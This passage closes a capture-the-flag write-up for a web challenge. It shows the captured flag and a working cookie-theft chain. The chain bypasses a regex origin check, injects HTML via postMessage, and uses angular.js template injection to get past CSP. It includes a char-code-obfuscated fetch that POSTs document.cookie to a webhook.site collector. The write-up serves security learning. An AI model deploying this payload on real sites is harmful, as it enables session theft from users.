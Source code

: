Great, everything seems to be working. Now all we need to do is to submit that URL to "get hacked" on the main page and:

![Inject](./images/win.png)

```
flag=govtech-csg{V3Ni,v1dI,v!Cl}
```

Winning request to our server will look like:

```
http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<your server>/?js=fetch(%22<your HTTP collector>%22,{%22method%22:%22POST%22,%22body%22:document.cookie})
```

And the winning payload sent to `postMessage` looks like:
```
<iframe/srcdoc="<script/src=/javascripts/angular.min.js></script><div/ng-app>{{x={1:valueOf.name.constructor.prototype};x[1].charAt=[].join;$eval(valueOf.name.constructor.fromCharCode(120,61,102,101,116,99,104,40,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,50,97,53,51,99,53,100,45,97,54,57,98,45,52,101,97,98,45,97,101,98,55,45,98,97,101,100,56,54,99,49,56,56,48,49,34,44,123,34,109,101,116,104,111,100,34,58,34,80,79,83,84,34,44,34,98,111,100,121,34,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41));}}</div>">
```

## Summary

- Host website where the host  begins with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` to bypass a origin check with regex
- Create an `<iframe>` holding `/broadcasts` of the challenge server
- `postMessage` to the `/broadcasts` `<iframe>` to inject HTML via `.innerHTML`
- Payload to be sent to `postMessage` contains another `<iframe>` that renders a sub-page embedding `angular.js` source code hosted on the challenge server and creates an `angular.js` app context to bypass CSP
- Use `angular.js` client side template injection to get arbitary JS execution
- Leak the challenge server's `document.cookie`

